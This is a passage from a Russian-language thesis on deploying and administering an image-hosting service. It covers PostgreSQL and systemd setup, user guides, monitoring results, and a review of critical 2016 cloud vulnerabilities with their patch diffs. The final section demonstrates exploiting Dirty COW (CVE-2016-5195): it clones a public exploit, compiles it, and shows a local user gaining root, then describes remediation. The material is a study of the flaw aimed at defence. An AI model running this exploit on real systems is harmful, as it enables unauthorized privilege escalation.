listen_addresses = 'localhost'
\end{lstlisting}
где localhost может быть ip адресом или адресом сети, устройствам которой разрешено подключение к базе данных.

После установки необходимо сконфигурировать учетные записи.
\begin{lstlisting}
# sudo -u postgres psql postgres
ALTER USER postgres with encrypted password '_ваш пароль';
\end{lstlisting}
Для разделенного доступа к базе данных и повышеной безопасности, необходимо создать пользователя с доступом только к необходимым базам данных и таблицам:
\begin{lstlisting}
CREATE DATABASE image_hosting;
CREATE USER hosting_service WITH password '_безопасный пароль';
GRANT ALL ON DATABASE image_hosting TO hosting_service;
\end{lstlisting}

После успешной конфигурации, требуется разрешить подключение данному пользователю с удаленного устройства или с устройства, на котором производится конфигурация в случае, если сам сервис планируется установить на тот же сервер, что и PostgreSQL. Для того, чтобы разрешить подключение к базе данных пользователю, необходимо в конец файла /etc/postgresql/версия_postgresql/main/pg_hba.conf добавить следующую строку:
\begin{lstlisting}
local   all         hosting_service                          md5
\end{lstlisting}
где local - адрес устройства или подсеть, с которой разрешена аутентификация пользователю hosting_service.

После всех манипуляций потребуется обновление конфигурации PostgreSQL:
\begin{lstlisting}
# sudo -u postgres psql postgres
SELECT pg_reload_conf()
\end{lstlisting}

В операционных системах семейства windows необходимо перейти на оффициальный сайт PostgreSQL, скачать установщик, следовать его инструкциям (рисунок \ref{postgresql-screenshot}), после чего запустить PgAdmin и сконфигурировать учетные записи в графическом интерфейсе.
\addimghere{postgresql-screenshot}{0.8}{Окно установщика PostgreSQL}{postgresql-screenshot}

\subsection{Установка и конфигурация программного решения}

После проведения всех операций по установке и настройке окружения, необходимо установить исполняемый jar файл сервиса на сервер.
Оптимальной будет директория /opt/hosting-service/

После чего необходимо добавить исполняемый файл в сервисы менеджера системы и сервисов.
Для менеджера systemctl в директории /lib/systemd/system/ необходимо создать свой файл myservice.service следующего содержания:

\begin{lstlisting}
[Unit]
Description=Tomcat Instance

[Service]
Type=simple
RemainAfterExit=yes
ExecStart=java -jar /opt/hosting-service/service.jar
User=hosting
Group=hosting

[Install]
WantedBy=multi-user.target
\end{lstlisting}

Для того, чтобы сервис запускался автоматически после загрузки сервера необходимо добавить сервис в автозагрузку systemctl:
\begin{lstlisting}
$ sudo systemctl enable myservice
\end{lstlisting}

Убрать сервис из автозагрузки в systemctl:
\begin{lstlisting}
$ sudo systemctl disable myservice
\end{lstlisting}

Узнать стоит ли сервис в автозагрузке:
\begin{lstlisting}
# systemctl is-enabled myservice
\end{lstlisting}

Для запуска/остановки/перезапуска сервиса служат следующие три комманды:
\begin{lstlisting}
# systemctl start myservice
# systemctl stop myservice
# systemctl restart myservice
\end{lstlisting}

Для конфигурации сервиса, в первую очередь необходимо поместить файл application.properties из поставки приложения в директорию с установленным приложением.
После чего сконфигурировать сервис.
Прежде всего требуется указать настройки подключения к базе данных и данные аутентификации почтового ящика для отправки электронных писем с ссылкой подтверждения регистрации. Описание всех настроек приложения приведено в таблице \ref{properties-table}

\begin{table}[H]
  \caption{Api контроллера аутентификации}\label{properties-table}
  \begin{tabular}{|p{9cm}|p{7cm}|}
  \hline Настройка & Описание \\
  \hline spring.servlet.multipart.enabled=true & Передача файлов по частям \\
  \hline spring.servlet.multipart.file-size-threshold=2KB & Размер части  принимаемого файла, после получения которой она будет записываться на диск \\
  \hline spring.servlet.multipart.max-file-size=40MB & Максимальный размер загружаемого файла \\
  \hline spring.jpa.hibernate.ddl-auto=update & Автоматическое приведение схемы базы данных в соответствие модели классов сервиса \\
  \hline spring.jpa.generate-ddl=true & Генерация запросов на созда \\
  \hline spring.jpa.database-platform= org.hibernate.dialect.PostgreSQL94Dialect & Используемый диалект языка SQL для обращения к базе данных \\
  \hline spring.datasource.driverClassName= org.postgresql.Driver & Используемый класс драйвера для обращения к базе данных \\
  \hline spring.datasource.url= jdbc:postgresql://localhost:5432/image_hosting & \multirow{2}{=}{Адрес соединения с базой данных} \\
  \cline{1-1} spring.datasource.jdbcUrl= jdbc:postgresql://localhost:5432/image_hosting & \\
  \hline spring.datasource.username=hosting_service & Имя пользователя базы данных\\
  \hline spring.datasource.password=password & Пароль пользователя \\
  \hline spring.jpa.show-sql=true & Логирование SQL запросов к базе данных \\
  \hline file.image-storage-dir=./storage/ & Корневая директория, в которую будут сохраняться фотографии \\
  \end{tabular}
\end{table}
\begin{table}[H]
  \caption*{Окончание таблицы \ref{properties-table}}
  \begin{tabular}{|p{9cm}|p{7cm}|}
  \hline Настройка & Описание \\
  \hline file.max-number-of-files-in-dir=10000 & Максимальное количество фотографий в поддиректории \\
  \hline file.size-of-path-tree=1 & Глубина вложенности директорий хранилища фотографий \\
  \hline file.dir-name-length=2 & Длинна названия директорий с файлами \\
  \hline color.high-value=256 & Верхняя граница значения цвета по одному каналу \\
  \hline color.low-value=0 & Нижняя граница значения цвета по одному каналу \\
  \hline support.email=support@gmail.com & Электронная почта, с которой отправляется письмо для подтверждения регистрации \\
  \hline spring.mail.host=smtp.gmail.com & Адрес почтового сервера \\
  \hline spring.mail.port=465 & Порт почтового сервера \\
  \hline spring.mail.protocol=smtps & Протокол почтовой службы \\
  \hline spring.mail.username=support@gmail.com & Имя пользователя почтового ящика для аутентификации \\
  \hline spring.mail.password=qwertyPassword123 & Пароль пользователя почтового ящика для аутентификации \\
  \hline spring.mail.properties.mail.transport.protocol=smtps & Протокол почтовой службы \\
  \hline spring.mail.properties.mail.smtps.auth=true & Использование аутентификации \\
  \hline spring.mail.properties.mail.smtps.timeout=8000 & Таймаут аутентификации и отправки писем \\
  \hline logging.level.org.hibernate.SQL=DEBUG & Уровень логирования SQL запросов. Возможные значения: DEBUG, INFO, WARN \\
  \hline 
  \end{tabular}
\end{table}

\subsection{Защита от DDoS-атак}

При обнаружении подозрительного трафика следует убедиться, что это действительно DDoS атака, а также проследить за реакцией сетевого оборудования на нее.
Определить DDoS это или нет можно с помощью утилит netstat и iftop.

Намеренную DDoS-атаку остановить с помощью программных средств практически невозможно, однако некоторые программные решения позволяют отражать небольшие атаки.
Одним из таких программных решений является DDoS-Deflate.
Он анализирует подключения к серверу на основании данных программного решения netstat, входящего в поставку большинства дистрибутивов linux и в случае превышения лимита подключений с одного адреса, запросы с него блокируются на некоторое время.

Для блокировки намеренных атак требуется поддержка аппаратной защиты от атак сетевым оборудованием.
Защита от распределенных DDoS-атак основывается на мно­го­фак­тор­ном анализе трафика, который поступает на каждый защищаемый сервер.
Во время нормальной работы система защиты может самообучаться или настраиваться, а после обнаружения атаки либо автоматически, либо по требованию, активно про­тиво­дей­ству­ет нелегитимному трафику.

В данном случае защитником выступает дата-центр, который имеет в распоряжении оборудование, способное осуществлять фильтрацию трафика и предотвращение атак на отказ.

\subsection{Общие рекомендации по администрированию}

Следует следить за новостными рассылками о критических уязвимостях в операционной системе и используемом программном обеспечении.

Если работа сервера замедлилась, в диагностике проблемы помогут утилиты ps, top, atop, htop.
В случае обнаружения сетевых проблем на помощью придут утилиты ping, traceroute, nmap, mtr, tcpdump, iftop.

Важно следить за состоянием RAID на сервере и в случае сбоя одного из дисков, следует произвести замену диска.

Также необходимо подбирать сложные для перебора пароли, периодически их менять и уведомлять пользователей о смене пароля.
Для генерации паролей подходит утилита pwgen:
\begin{lstlisting}
# pwgen 12 -s1yc
Y;Xhfu;04A{O
\end{lstlisting}

Стоит аккуратно работать на сервере под учетной записью root, не стоит запускать неизвестные скрипты или двоичные файлы.
Необходимо проверять контрольные суммы загруженных пакетов и следить за цифровой подписью.

Не следует просто так перезагружать сервер, рекомендуется это делать только в случаях чрезвычайной необходимости (таких как обновление ядра).

Всегда стоит проверять наличие актуальных резервных копий, а также свободное место на системах хранения данных.
Стоит также настроить ротацию логов, это позволит сэкономить место на диске.

Всегда стоит вести документацию в том или ином виде и логировать свои действия на сервере.
Логи, которые могут помочь в диагностике неисправностей:
\begin{itemize}
  \item /var/log/auth.log;
  \item /var/log/dmesg;
  \item /var/log/kern.log;
  \item /var/log/messages;
  \item /var/log/nginx/error.log;
  \item /var/log/syslog;
  \item /var/log/vzctl.log.
\end{itemize}

В случае обнаружения неполадок с аппаратной частью, стоит незамедлительно обратиться к провайдеру для проверки работоспособности аппаратуры.
В случае недочетов в программном обеспечении стоит обратиться к технической поддержке ПО.

\clearpage % Руководство администратора
\section{Руководство пользователя}
\subsection{Регистрация пользователя}
Перед работой с сервисом пользователю необходимо пройти процедуру регистрации. Для того, чтобы это сделать, необходимо на странице авторизации нажать кнопку регистрации (рисунок \ref{login-1}).
\addimghere{login}{1}{Страница авторизации с возможностью перейти к регистрации}{login-1}
В появившуюся форму (рисунок \ref{registration}) необходимо ввести все данные. Пароль необходимо выбирать надёжный, состоящий не менее чем из 6 символов и содержать как минимум одну прописную букву, одну строчную букву, одну цифру и один специальный символ.
Адрес электронной почты должен быть действующим.
\addimghere{registration}{1}{Регистрация пользователя}{registration}
После отправки данных для регистрации, на почту придёт письмо с ссылкой (рисунок \ref{confirmation}), перейдя по которой пользователь подтвердит регистрацию.
\addimghere{confirmation}{1}{Подтверждение регистрации пользователя}{confirmation}
\subsection{Авторизация пользователя}
После успешного прохождения процесса регистрации, пользователь может авторизироваться, воспользовавшись формой авторизации (рисунок \ref{login}).
\addimghere{login}{1}{Авторизация пользователя}{login}
В случае, если пользователь забыл пароль, необходимо с формы авторизации перейти на форму восстановления пароля с помощью предназначенной для этого кнопки.
После нажатия откроется окно восстановления пароля (рисунок \ref{reset-password}), в которое необходимо ввести адрес электронной почты, после чего на почту придёт письмо с ссылкой для подтверждения восстановления пароля.
Перейдя по ссылке, пользователь при необходимости может указать новый пароль.
\addimghere{reset-password}{1}{Восстановление пароля}{reset-password}
\subsection{Работа с фотографиями}
Для загрузки одной или нескольких фотографий на сервис, необходимо открыть страницу для загрузки фотографий и перетащить фотографии на кнопку загрузки множества фотографий, или одну фотографию на кнопку загрузки одной фотографии.
После выбора необходимых фотографий требуется нажать на кнопку загрузки фотографий для одной или нескольких фотографий соответственно.
\addimghere{upload}{1}{Загрузка фотографии}{upload}
После загрузки фотографии внизу появится ссылка для перехода на страницу фотографии (рисунок \ref{uploaded}), можно перейти на страницу с фотографией 
\addimghere{uploaded}{1}{Форма загрузки фотографий после загрузки}{uploaded}
В случае, если перейдя на страницу с фотографией не отображаются индексированные данные о фотографии, такие как теги и информация о цветах (рисунок \ref{unprocessed-photo}), необходимо обновить страницу.
Фотографии индексируются с некоторой задержкой.
\addimghere{unprocessed-photo}{0.8}{Страница с неиндексированной фотографией}{unprocessed-photo}
После индексации фотографии данные о индексации доступны на странице с фотографией (рисунок \ref{processed-photo}).
\addimghere{processed-photo}{0.8}{Страница с индексированной фотографией}{processed-photo}
Для просмотра всех фотографий пользователя, необходимо перейти на страницу просмотра фотографий пользователя.
Если фотографии находятся в общем доступе, то они будут видны всем пользователям.
\addimghere{feed}{0.8}{Лента фотографий пользователя, отображенная по времени создания фотографий}{feed}

\clearpage % Руководство пользователя

\section{Результаты тестирования}

В режиме нормального функционирования мониторинг показывает полную работоспособность всех сервисов системы (рис. \ref{nagios-ok}).
\addimghere{nagios-ok}{1}{Работоспособность сервисов в штатном режиме}{nagios-ok}

В случае появления внештатных ситуаций, система мониторинга фиксирует аномальные явления, такие как недоступность хостов или отдельных сервисов.
Мониторинг способен запоминать код ошибки, поэтому диагностика неисправностей является несложной задачей.
Пример реакции системного мониторинга на недоступность сервера представлен на рис. \ref{nagios-nok}.
\addimghere{nagios-nok}{1}{Недоступность некоторых серверов инфраструктуры}{nagios-nok}

Пример реакции системы мониторинга Nagios на неисправность одного из дисков в RAID-массиве представлен на рис. \ref{nagios-raid-error}.
\addimghere{nagios-raid-error}{1}{Сбой работы диска в RAID-массиве}{nagios-raid-error}

\subsection{Нагрузка сети во время резервного копирования}

Каждую ночь на серверах запускается задача резервного копирования, в это время наблюдается повышенная нагрузка на сервере, связанная со снятием дампов баз данных, архивацией и сжатием архивов для передачи по сети на сервер резервного копирования.

Как правило повышение нагрузки незначительное, что можно наблюдать на рис. \ref{top-ok}.
\addimghere{top-ok}{1}{Состояние системы во время процесса резервного копирования}{top-ok}

На графике Munin можно наблюдать значительное повышение утилизации сетевого канала во время резервного копирования.
График представлен на рис. \ref{munin-backup}.
Значения представленные на графике являются условными, сетевого канала в 10 Мб/с явно недостаточно для такой инфраструктуры.
На деле используется сеть с пропускной способностью 100 Мб/с.
\addimghere{munin-backup}{1}{Состояние системы во время процесса резервного копирования}{munin-backup}

На графике представлено состояние канала сети за последний месяц, пиками на графике являются значения максимальной пропускной способности сети.

\subsection{Состояние сервера в период атаки на отказ}

Можно выделить три основных типа DDoS атак:
\begin{itemize}
  \item переполнение сетевого канала;
  \item большое количество одновременных подключений (syn-flood);
  \item исчерпание процессорных мощностей сервера (HTTP-flood).
\end{itemize}

От последних двух типов атак можно защищаться средствами операционной системы.
В случае переполнения сетевого канала, решением проблемы является расширение сетевого канала.

Состояние нагрузки системы во время DDoS-атаки можно пронаблюдать на рис. \ref{munin-la}.
\addimghere{munin-la}{1}{Значительное повышение нагрузки в период 0:00}{munin-la}

В данный промежуток времени нагрузка составила 40 LA, что превышает среднюю нагрузку на используемом сервере в 20 раз.
При этом, в процессах системы наблюдается явная нагрузка на сервер баз данных (рис. \ref{htop-ddos}).
\addimghere{htop-ddos}{1}{Все процессорные ядра заняты обработкой запросов}{htop-ddos}

На графиках соединений с брандмауэром также наблюдается аномальное явление (рис. \ref{munin-ddos}).
\addimghere{munin-ddos}{1}{Превышено число соединений к брандмауэру в 40 раз}{munin-ddos}

Если взглянуть на вывод команды netstat, то можно заметить наиболее активные адреса:
\begin{lstlisting}
# netstat -ntu | awk '{print $5}' | cut -d: -f1 | sort | \
uniq -c | sort -rn | grep -v 127.0.0.1 | head
  22373 209.72.209.54
  17766 88.81.32.224
  16060 176.209.90.198
  13226 217.209.214.248
    221 62.163.78.143
    221 188.255.255.177
    220 198.27.82.153
    118 216.242.148.101
    113 95.216.88.50
    111 216.73.216.251
\end{lstlisting}
\subsection{Отказ одного из DNS-серверов}
Nagios зафиксировал недоступность одного из DNS-серверов, неспособного осуществлять обработку запросов (рис. \ref{dns-nok}).
\addimghere{dns-nok}{1}{Недоступность DNS-сервера}{dns-nok}
При этом все сайты доступны и работают в штатном режиме, так как отсутствие одного из трех серверов не влияет на работоспособность всей инфраструктуры.
Один из подчиненных серверов все еще доступен и способен обрабатывать пользовательские DNS-запросы.
После возобновления работоспособности сервера, оба подчиненных сервера функционируют в штатном режиме:
\begin{lstlisting}
$ host -t ns site.ru
site.ru name server ns1.site.ru.
site.ru name server ns2.site.ru.
\end{lstlisting}

Таким образом, в ходе проектирования и тестирования инфраструктуры удалось реализовать отказоустойчивую систему, способную оперативно обнаруживать неисправности в инфраструктуре.
Также немаловажным фактором является реакция команды системных администраторов и технической поддержки дата-центра, в условиях критических ситуация важно проявить особую внимательность в решении проблем.

\clearpage % Результаты тестирования

\section{Экспериментальные исследования}

В разделе экспериментальных исследований описано исследование наиболее опасных критических уязвимостей в программном обеспечении, используемом в облачных средах, а также эксплуатация уязвимости CVE-2016-5195 в производственной среде.
В подразделе эксплуатации уязвимости также описана защита от уязвимости и меры по предотвращению, мониторингу и оперативному реагированию на подобные инциденты.

\subsection{Критические уязвимости в 2016~г.}

Критические уязвимости 2016~г. в программном обеспечении \cite{cvedetails}, используемом в облачной среде представлено в табл. \ref{vulns}.
\begin{table}[H]
  \caption{Наиболее опасные критические уязвимости 2016~г.}\label{vulns}
  \begin{tabular}{|l|p{2cm}|p{7cm}|l|}
  \hline \hyperlink{cve}{CVE} \hyperlink{id}{ID} & \hyperlink{cvss}{CVSS} & Тип уязвимости & ПО \\
  \hline CVE-2016-5195 & 7.2 & Получение привилегий & Linux Kernel \\
  \hline CVE-2016-6258 & 7.2 & Получение привилегий & Xen \\
  \hline CVE-2016-5696 & 5.8 & Получение данных & Linux Kernel \\
  \hline CVE-2016-3710 & 7.2 & Запуск кода & QEMU \\
  \hline CVE-2016-8655 & 7.2 & DoS, получение привилегий & Linux Kernel \\
  \hline CVE-2016-4997 & 7.2 & DoS, получение привилегий, доступ к памяти & Linux Kernel \\
  \hline CVE-2016-4484 & 7.2 & Получение привилегий & CryptSetup \\
  \hline CVE-2016-6309 & 10.0 & DoS, запуск кода & OpenSSL\\
  \hline CVE-2016-1583 & 7.2 & Переполнение стека, получение привилегий, DoS & Linux Kernel \\
  \hline
  \end{tabular}
\end{table}

Рассмотрим подробнее уязвимости из этой таблицы.

Опасная уязвимость CVE-2016-5195 <<Dirty COW>> обнаружена Филом Остером в ходе исследования зараженного сервера.
Данная уязвимость присутствовала в составе ядра Linux 10 лет, начиная с версии 2.6.22.
Исправлена в октябре 2016~г \cite{dcow}.

Суть уязвимости состоит в том, что при чтении области данных памяти при использовании механизма copy-on-write (\hyperlink{cow}{COW}), используется одна общая копия, а при изменении данных --- создается новая копия, а так называемый <<Dirty Bit>> указывает был ли изменен соответствующий блок памяти.
Проблема возникает при одновременном вызове функции madvise() и записи в страницу памяти, к которой пользователь не имеет доступа на изменение.
При многочисленном повторении запросов происходит <<гонка>> (race condition) и эксплоит получает право на изменение страницы памяти, которая может относится к привилегированному suid-файлу.

Таким образом, с использованием эксплоитов можно повысить привилегии локального пользователя например до пользователя root.
В выпущенном патче добавлен соответствующий флаг FOLL\_COW, который является индикатором окончания операции COW:
\begin{lstlisting}
diff --git a/include/linux/mm.h b/include/linux/mm.h
+#define FOLL_COW 0x4000  /* internal GUP flag */

diff --git a/mm/gup.c b/mm/gup.c
+static inline bool can_follow_write_pte(pte_t pte, unsigned int flags)
+{
+  return pte_write(pte) ||
+  ((flags & FOLL_FORCE) && (flags & FOLL_COW) && pte_dirty(pte));
+}

-if ((flags & FOLL_WRITE) && !pte_write(pte)) {
+if ((flags & FOLL_WRITE) && !can_follow_write_pte(pte, flags)) {

-*flags &= ~FOLL_WRITE;
+*flags |= FOLL_COW;
\end{lstlisting}

Уязвимость в гипервизоре Xen --- CVE-2016-6258 (XSA-182) позволяет привилегированному пользователю гостевой системы выполнить свой код на уровне хост-системы.
Уязвимость применима только к режиму паравиртуализации и не работает в режиме аппаратной виртуализации, а также на архитектуре \hyperlink{arm}{ARM}.

В паравиртуализированных окружениях, для быстрого обновления элементов в таблице страниц памяти пропускались ресурсоемкие повторные проверки доступа.
Данные проверки реализовывались с помощью очистки Access/Dirty битов, однако этого оказалось недостаточно \cite{xsa182}.
В патче к уязвимости представлен код, в котором исправлены проверки доступов, а именно добавлены дополнительные повторные проверки:
\begin{lstlisting}
diff --git a/xen/include/asm-x86/page.h b/xen/include/asm-x86/page.h
+#define _PAGE_AVAIL_HIGH (_AC(0x7ff, U) << 12)

diff --git a/xen/arch/x86/mm.c b/xen/arch/x86/mm.c
+#define FASTPATH_FLAG_WHITELIST \
+(_PAGE_NX_BIT | _PAGE_AVAIL_HIGH | _PAGE_AVAIL | _PAGE_GLOBAL | \
+_PAGE_DIRTY | _PAGE_ACCESSED | _PAGE_USER)

-if ( !l1e_has_changed(ol1e, nl1e, PAGE_CACHE_ATTRS | _PAGE_RW | _PAGE_PRESENT) )
+if ( !l1e_has_changed(ol1e, nl1e, ~FASTPATH_FLAG_WHITELIST) )

-if ( !l2e_has_changed(ol2e, nl2e, unlikely(opt_allow_superpage)
-? _PAGE_PSE | _PAGE_RW | _PAGE_PRESENT : _PAGE_PRESENT) )
+if ( !l2e_has_changed(ol2e, nl2e, ~FASTPATH_FLAG_WHITELIST) )

-if ( !l3e_has_changed(ol3e, nl3e, _PAGE_PRESENT) )
+if ( !l3e_has_changed(ol3e, nl3e, ~FASTPATH_FLAG_WHITELIST) )

-if ( !l4e_has_changed(ol4e, nl4e, _PAGE_PRESENT) )
+if ( !l4e_has_changed(ol4e, nl4e, ~FASTPATH_FLAG_WHITELIST) )
\end{lstlisting}

Уязвимость CVE-2016-5696 в ядре Linux, позволяющая вклиниться в стороннее TCP-соединение была обнародована на конференции Usenix Security Symposium.
Из-за недоработки механизмов ограничения интенсивности обработки ACK-пакетов, существует возможность вычислить информацию о номере последовательности, которая идентифицирует поток в TCP-соединении, и со стороны отправить подставные пакеты, которые будут обработаны как часть атакуемого соединения \cite{tcp}.

Суть атаки заключается в наводнении хоста запросами для срабатывания ограничения в обработчике ACK-пакетов, параметры которого можно получить меняя характер нагрузки.
Для атаки необходимо создать шум, чтобы определить значение общего счетчика ограничения интенсивности ACK-ответов, после чего на основании оценки изменения числа отправленных пакетов определить номер порта клиента и осуществить подбор номера последовательности для конкретного TCP-соединения.

В патче к этой уязвимости увеличен лимит TCP ACK и добавлена дополнительная рандомизация для снижения предсказуемости параметров работы системы ограничения ACK-пакетов:
\begin{lstlisting}
diff --git a/net/ipv4/tcp_input.c b/net/ipv4/tcp_input.c
+int sysctl_tcp_challenge_ack_limit = 1000;
-u32 now;
+u32 count, now;
+u32 half = (sysctl_tcp_challenge_ack_limit + 1) >> 1;

-challenge_count = 0;
+WRITE_ONCE(challenge_count, half +
+prandom_u32_max(sysctl_tcp_challenge_ack_limit));

-if (++challenge_count <= sysctl_tcp_challenge_ack_limit) {
+  count = READ_ONCE(challenge_count);
+if (count > 0) {
+  WRITE_ONCE(challenge_count, count - 1);
\end{lstlisting}

Уязвимость CVE-2016-3710 <<Dark portal>> обнаружена в QEMU, который используется для эмуляции оборудования в Xen и KVM.
При использовании метода эмуляции stdvga, из-за записи в регистр памяти VBE\_DISPI\_INDEX\_BANK, хранящий смещение адреса текущего банка видеопамяти, возможно обращение к областям памяти, выходящим за границы буфера, так как предлагаемые банки видеопамяти адресуются с использованием типа byte (uint8\_t *), а обрабатываются как тип word (uint32\_t *) \cite{qemu}.
Уязвимость позволяет выполнить код на хост-система с правами обработчика QEMU (обычно root или qemu-dm).

В патче к уязвимости добавлены дополнительные проверки диапазона памяти:
\begin{lstlisting}
diff --git a/hw/display/vga.c b/hw/display/vga.c
+assert(offset + size <= s->vram_size);
-if (s->vbe_regs[VBE_DISPI_INDEX_BPP] == 4) {
-  val &= (s->vbe_bank_mask >> 2);
-} else {
-  val &= s->vbe_bank_mask;
-}
+val &= s->vbe_bank_mask;
+assert(addr < s->vram_size);

-ret = s->vram_ptr[((addr & ~1) << 1) | plane];
+addr = ((addr & ~1) << 1) | plane;
+if (addr >= s->vram_size) {
+  return 0xff;
+}
+ret = s->vram_ptr[addr];

+if (addr * sizeof(uint32_t) >= s->vram_size) {
+  return 0xff;
+}

+assert(addr < s->vram_size);
+if (addr >= s->vram_size) {
+  return;
+}

+if (addr * sizeof(uint32_t) >= s->vram_size) {
+  return;
+}
\end{lstlisting}

Уязвимость в ядре Linux CVE-2016-8655 позволяет злоумышленнику запустить код на уровне ядра с использованием функции packet\_set\_ring() через манипуляции с кольцевым буфером TPACKET\_V3 \cite{netraw}.
Использовать уязвимость можно для выхода за пределы контейнера, для этого необходимо чтобы локальный пользователь имел полномочия по созданию сокетов AF\_PACKET.

Устранена уязвимость в декабре 2016~г. с помощью кода, перехватывающий возможные гонки:
\begin{lstlisting}
diff --git a/net/packet/af_packet.c b/net/packet/af_packet.c
-if (po->rx_ring.pg_vec || po->tx_ring.pg_vec)
-  return -EBUSY;

-po->tp_version = val;
-return 0;
+break;

+lock_sock(sk);
+if (po->rx_ring.pg_vec || po->tx_ring.pg_vec) {
+  ret = -EBUSY;
+} else {
+  po->tp_version = val;
+  ret = 0;
+}
+release_sock(sk);
+return ret;

+lock_sock(sk);
+release_sock(sk);
\end{lstlisting}

Уязвимость CVE-2016-4997 присутствует в подсистеме netfilter ядра Linux и связана с недоработкой в обработчике setsockopt IPT\_SO\_SET\_REPLACE и может быть использована в системах, использующих изолированные контейнеры \cite{netf}.
Проблема проявляется при использовании пространств имен для изоляции сети и идентификаторов.

В патче к уязвимости была добавлена дополнительная проверка адреса функции xt\_entry\_foreach():
\begin{lstlisting}
diff --git a/net/ipv4/netfilter/arp_tables.c b/net/ipv4/netfilter/arp_tables.c
+if (pos + size >= newinfo->size)
+  return 0;

+e = (struct arpt_entry *)
+(entry0 + newpos);

+if (newpos >= newinfo->size)
+  return 0;

-if (!mark_source_chains(newinfo, repl->valid_hooks, entry0)) {
-  duprintf("Looping hook\n");
+if (!mark_source_chains(newinfo, repl->valid_hooks, entry0))
-}

diff --git a/net/ipv4/netfilter/ip_tables.c b/net/ipv4/netfilter/ip_tables.c
+if (pos + size >= newinfo->size)
+  return 0;

+e = (struct ipt_entry *)
+(entry0 + newpos);
+if (newpos >= newinfo->size)
+  return 0;

diff --git  a/net/ipv6/netfilter/ip6_tables.c b/net/ipv6/netfilter/ip6_tables.c
+if (pos + size >= newinfo->size)
+  return 0;

+e = (struct ip6t_entry *)
+(entry0 + newpos);
+if (newpos >= newinfo->size)
+  return 0;
\end{lstlisting}

Уязвимость CVE-2016-4484 выявлена в пакете CryptSetup, применяемом для шифрования дисковых разделов в Linux.
Ошибка в коде скрипта разблокировки позволяет получить доступ в командную оболочку начального загрузочного окружения с правами суперпользователя.

Несмотря на шифрование разделов возможны ситуации при которых некоторые разделы не шифруются (например /boot), таким образом возможно оставить в системе исполняемый файл с правами setuid root для повышения привилегий или скопировать шифрованный раздел по сети для подбора пароля \cite{cryptsetup}.

Для эксплуатации уязвимости необходимо удерживать клавишу Enter в ответ на запрос доступа к зашифрованным разделам.
Спустя 70 секунд удерживания клавиши осуществися автоматический вход в командную оболочку.

Проблема вызвана некорректной обработкой лимита на максимальное число попыток монтирования.
Исправление доступно в виде загрузки \hyperlink{grub}{GRUB} с параметром <<panic>> или в виде патча, устанавливающего лимит:
\begin{lstlisting}
diff --git a/scripts/local-top/cryptroot b/scripts/local-top/cryptroot
+success=0

+  success=1

-if [ $crypttries -gt 0 ] && [ $count -gt $crypttries ]; then
-  message "cryptsetup: maximum number of tries exceeded for $crypttarget"
-  return 1
+if [ $success -eq 0 ]; then
+  message "cryptsetup: Maximum number of tries exceeded. Please reboot."
+  while true; do
+    sleep 100
+  done
\end{lstlisting}

Сотрудники компании Google выявили уязвимость CVE-2016-6309 в OpenSSL, позволяющая злоумышленникам выполнить произвольный код при обработке отправленных ими пакетов.
При получении сообщения размером больше 16~Кб, при перераспределении памяти остается висячий указатель на старое положение буфера и запись поступившего сообщения производится в уже ранее освобожденную область памяти.

В патче опубликованном в сентябре 2016~г. исправлена проблема с висячим указателем:
\begin{lstlisting}
diff --git a/ssl/statem/statem.c b/ssl/statem/statem.c
+static int grow_init_buf(SSL *s, size_t size) {
+  size_t msg_offset = (char *)s->init_msg - s->init_buf->data;
+  if (!BUF_MEM_grow_clean(s->init_buf, (int)size))
+    return 0;
+  if (size < msg_offset)
+    return 0;
+  s->init_msg = s->init_buf->data + msg_offset;
+  return 1;
+}

-&& !BUF_MEM_grow_clean(s->init_buf,
-(int)s->s3->tmp.message_size
-+ SSL3_HM_HEADER_LENGTH)) {
+&& !grow_init_buf(s, s->s3->tmp.message_size
++ SSL3_HM_HEADER_LENGTH)) {
\end{lstlisting}

Ядро Linux подвержено уязвимости CVE-2016-1583, благодаря которой существует возможность поднятия привилегий локальному пользователю при помощи eCryptfs.

С помощью формирования рекурсивных вызовов в пространстве пользователя возможно добиться переполнения стека ядра.
Злоумышленник может организовать цепочку рекурсивных отражений в память файла, при которой процесс отражает в свое окружения другие файлы \cite{ecryptfs}.
При чтении содержимого файлов будет вызван обработчик pagefault для процессов, что приведет к переполнению стека.

Соответствующие исправления были приняты в июне 2016~г. в ядре Linux:
\begin{lstlisting}
diff --git a/fs/proc/root.c b/fs/proc/root.c
+sb->s_stack_depth = FILESYSTEM_MAX_STACK_DEPTH;

diff --git a/fs/ecryptfs/kthread.c b/fs/ecryptfs/kthread.c
+#include <linux/file.h>

-goto out;
+goto have_file;

-if (IS_ERR(*lower_file))
+if (IS_ERR(*lower_file)) {
+  goto out;
+}
+have_file:
+  if ((*lower_file)->f_op->mmap == NULL) {
+    fput(*lower_file);
+    *lower_file = NULL;
+    rc = -EMEDIUMTYPE;
+  }
\end{lstlisting}


\subsection{Эксплуатация уязвимости ядра Linux CVE-2016-5195}

Наиболее опасной уязвимостью 2016~г. является CVE-2016-5195 с кодовым именем <<Dirty COW>>.
Такая степень опасности обусловлена тем, что ей подвержены практически все ядра Linux начиная с версии 2.6.22, а также легкостью применения эксплоитов.

В данном разделе применяется эксплоит \cite{dcowexp}, позволяющий получить права суперпользователя из-под локального пользователя.

Для эксплуатации используется дистрибутив CentOS:
\begin{lstlisting}
# cat /etc/redhat-release
CentOS Linux release 7.2.1511 (Core)
# uname -r
3.10.0-327.el7.x86_64
\end{lstlisting}

Необходимо повысить привилегии локального пользователя dcow до суперпользователя root, для этого необходимо скачать эксплоит и установить инструменты для компиляции (gcc/g++).
После установки всех необходимых настроек компилируем код эксплоита:
\begin{lstlisting}
$ id
uid=1000(dcow) gid=1000(dcow) groups=1000(dcow)
$ git clone https://github.com/gbonacini/CVE-2016-5195
$ cd CVE-2016-5195/
$ make
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
\end{lstlisting}

После компиляции исходного кода эксплоита, в текущем каталоге появляется бинарный файл, запуск которого в автоматическом режиме позволяет получить права доступа суперпользователя и сменить его пароль на <<dirtyCowFun>>:
\begin{lstlisting}
$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
$ su root
Password: dirtyCowFun
# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}

Для исправления уязвимости в кратчайшие сроки для ядра Linux был внесен патч, а мейнтейнеры дистрибутивов опубликовали пакеты с исправлениями.
Для обновления дистрибутива и устранения уязвимости необходимо скачать исправленную версию ядра и произвести перезагрузку.

В случае когда целый парк серверов не имеет возможности совершать перезагрузку необходимо использовать такие технологии как kpatch, livepatch, KernelCare.
